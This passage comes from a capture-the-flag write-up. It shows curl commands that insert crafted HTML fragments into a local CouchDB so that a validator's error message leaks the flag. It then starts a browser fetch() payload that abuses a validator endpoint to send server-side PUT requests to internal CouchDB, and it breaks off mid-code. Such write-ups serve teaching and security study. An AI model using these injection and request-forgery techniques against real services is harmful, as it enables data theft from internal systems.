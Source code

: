 You can create two new records and use `db/_find` API to sort them to get the result.

```bash
curl -X "PUT" "http://127.0.0.1:5984/a08f8e0260c64418510cefb2b06eee5cd/a" \
     -H 'Content-Type: application/json; charset=utf-8' \
     -u 'a08f8e0260c64418510cefb2b06eee5cd:bbb' \
     -d $'{
  "flag": "<script></script><meta \'"
}'
```
```bash
curl -X "PUT" "http://127.0.0.1:5984/a08f8e0260c64418510cefb2b06eee5cd/z" \
     -H 'Content-Type: application/json; charset=utf-8' \
     -u 'a08f8e0260c64418510cefb2b06eee5cd:bbb' \
     -d $'{"flag": ">"}'
```

Then post ``_find`` to get values:
```bash
root@217480f2deb1:/# curl http://a08f8e0260c64418510cefb2b06eee5cd:bbb@[::ffff:7f00:0001]:5984/a08f8e0260c64418510cefb2b06eee5cd/_find -XPOST -H'Content-Type: application/json' -d'{"selector":{}}'
{"docs":[
{"_id":"a","_rev":"1-40922bdd5cdde7eb134c14d0d43d80fe","flag":"<script></script><meta '"},
{"_id":"flag","_rev":"1-d821640ce988369cf51fd2add85bac89","flag":"flag{t4ke_a_google_amp_screensh0t}"},
{"_id":"z","_rev":"1-66e9445145fbbdf7c44f10929e6a76fd","flag":">"}
],
"bookmark": "g1AAAAAyeJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYozVoEkOGASEKEsAFFBDas",
"warning": "No matching index found, create an index to optimize query time."}
```

Copy the response to the validator, it will return `The attribute '{"_id":"flag","_rev":"1-d821640ce988369cf51fd2add85bac89","flag":"flag{t4ke_a_google_amp_screensh0t}"},' may not appear in tag 'meta name= and content='.`

### Part 2.3

We can pass a object instead of string as `axios`'s parameter to make a `POST` request. This trick is quite common and has been seen in many CTF challanges such as [RealWorldCTF 2018 PrintMD](https://blog.cal1.cn/post/RealWorldCTF%20PrintMD%20writeup).

```javascript
const serialize = function(obj, prefix) {
  // JSON to querystring
}
await fetch('http://127.0.0.1:3000/validator', {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: serialize({
        type: 'url',
        input: {
            url: 'http://a08f8e0260c64418510cefb2b06eee5cd:bbb@[::ffff:ac1e:103]:5984/a08f8e0260c64418510cefb2b06eee5cd/a',
            method: 'put',
            headers: {'Content-Type': 'application/json'},
            data: `{"flag": "<script></script><meta '"}`
        }
    })
})
await fetch('http://127.0.0.1:3000/validator', {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
```